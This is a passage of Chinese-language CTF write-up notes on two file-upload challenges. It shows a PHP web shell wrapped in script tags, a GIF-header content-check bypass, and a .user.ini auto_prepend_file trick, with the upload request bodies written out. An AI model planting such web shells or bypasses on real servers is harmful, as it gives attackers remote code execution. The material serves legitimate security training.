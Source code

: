 

* 另法：设置空索引，即分别设置`arr[0]`, `arr[2]`，count将为2，而`arr[1]`将为空



## Examples

### [极客大挑战 2019]Upload

1. 检测文件中是否包含`<?`
2. 检测文件头，判断图片
3. 文件后缀没有约束（不能php）

**新Shell格式**：

```html
<script language="php">eval($_POST['a'])</script>
```

上传文件位置`upload/`



### [SUCTF 2019]CheckIn

* 文件后缀检测： `ph*, htaccess`

* 文件内容检测 `exif`文件头 -> GIF文件头绕过

* 上传文件目录存在`index.php` **使用`.user.ini`配置文件绕过**

  * 类似htaccess，配置当前目录，为Fastcgi接口配置文件 （通用于apache/nginx）

  * 如下配置，将在所有php文件解析前，在头部加入指定文件内容（append尾部）
    ```ini
    auto_prepend_file=shell.gif
    ```

1. 上传`.user.ini`
   ```http
   Content-Disposition: form-data; name="fileUpload"; filename=".user.ini"
   Content-Type: application/octet-stream
   
   GIF89a?
   auto_prepend_file=shell.gif
   ```

2. 上传`shell.gif`
   ```http
   Content-Disposition: form-data; name="fileUpload"; filename="shell.gif"
   Content-Type: application/octet-stream
   
   GIF89a?
   <script language="php">eval($_POST['a'])</script>
   ```

3. 访问目录下`index.php`，生效